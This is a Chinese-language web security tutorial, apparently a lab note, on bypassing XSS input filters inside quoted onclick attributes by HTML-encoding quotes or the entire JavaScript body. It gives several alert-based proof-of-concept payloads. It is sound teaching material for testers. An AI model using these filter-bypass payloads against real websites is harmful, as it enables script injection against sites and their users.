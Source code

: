 ### 使用 HTML 编码

在带引号的标签属性（如事件处理程序）的 XSS 上下文中，可利用 HTML 编码绕过输入过滤。浏览器解析 HTML 时会先对属性值进行解码，因此若服务器阻止或清理了关键字符（如单引号），可通过 HTML 实体（如`'`）替代。

例如在`onclick`属性中，有效负载`'-alert(document.domain)-'`会被浏览器解码为`'-alert(document.domain)-'`，成功跳出原字符串并执行脚本。

### 实验（上下文环境：允许 html 编码的 js 的代码环境）

![image-20250530153700612](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250530153700612.png)

```
<a id="author" href="用户输入的网址" onclick="var tracker={track(){}};tracker.track('用户输入的网址');">&lt;img src=1 onerror=alert(1)&gt;</a>

http://test.com&apos;-alert(document.domain)-&apos;
```

![image-20250530154108787](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250530154108787.png)

poc：

```
<a id="author" href="https://test" onclick="
var tracker={
	track(){}
};
tracker.track('https://test'-alert(1));">
click me
</a>
```

poc：

```
<a id="author" href="https://test" onclick="
var tracker={
	track(){}
};
tracker.track('https://test&#x27;-alert(1)-&#x27;');">
click me
</a>
```

poc：

```
<a id="author" href="https://test" onclick="
&#x76;&#x61;&#x72;&#x20;&#x74;&#x72;&#x61;&#x63;&#x6b;&#x65;&#x72;&#x3d;&#x7b;&#x0a;&#x09;&#x74;&#x72;&#x61;&#x63;&#x6b;&#x28;&#x29;&#x7b;&#x7d;&#x0a;&#x7d;&#x3b;&#x0a;&#x74;&#x72;&#x61;&#x63;&#x6b;&#x65;&#x72;&#x2e;&#x74;&#x72;&#x61;&#x63;&#x6b;&#x28;&#x27;&#x68;&#x74;&#x74;&#x70;&#x73;&#x3a;&#x2f;&#x2f;&#x74;&#x65;&#x73;&#x74;&#x27;&#x2d;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;&#x29;&#x3b;">
click me
</a>
```

注：以上 html 编码既适用于拼接原有的 js 代码场景，也适用于完全构造 js 代码场景。

